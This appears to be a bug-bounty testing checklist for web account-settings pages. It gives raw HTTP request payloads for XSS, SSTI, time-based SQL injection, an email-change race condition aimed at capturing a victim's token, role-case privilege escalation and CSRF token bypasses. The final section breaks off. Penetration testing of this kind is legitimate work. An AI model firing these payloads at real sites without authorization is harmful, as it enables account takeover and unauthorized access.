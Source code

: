 ##### Null Payload Everywhere to get weird response
````
POST /settings

email, user, pass, or phone=NULL&token=csrf
````
##### Injecting XSS, SSTI payload in username or name field
````
POST /settings

username='''><svg/onload=prompt('xss');>{{7*7}}&token=csrf
    OR 
   only ssti payload in username
 username={{7*7}}
 
````
##### SQLI payload in Username field
````
POST /settings

username=' or sleep(20)'&token=csrf
````
##### If there is email change function and if the token is sent to the email for verification, try race coniditon. The application may send the same token to your email for another email
```
Post /change-email                    Post /change-email 
email=attacker@gmail.com              email=victim@gmail.com    ==> attacker will receive token for victim email.

Check james kettle samashing race condition blog on portswigger. 
```
##### If there is option to add second email, add with company email
````
POST /settings

email= any@company.com&action=add

email=samsec@gmail.com@company.com
email=any@burpcollaborator.net

````
##### CASE SENSITIVE IDORS [If Role change option is there and using admin throw no permission, try chaning case of admin to (Admin)]
````
POST /user/changeroles

{"id"=10,"role"="admin"}               response: {"error":"no_permission"}


change to 
{"id"=10,"role"="Admin"}                response: {"status":"OK"}
````
---------------------------------------------------------------------------------------------
#### - Try to remove CSRF token from the request and check if it works. And generate burp csrf POC
--------------------------------------------------------------------------------------------
##### Send empty token array in csrf token parameter
````
POST /settings

email=me@gmail.com&token[]=
````
##### Bypassing CSRF by changing request method from POST to GET
````
GET /settings?----------
--
--
--
````

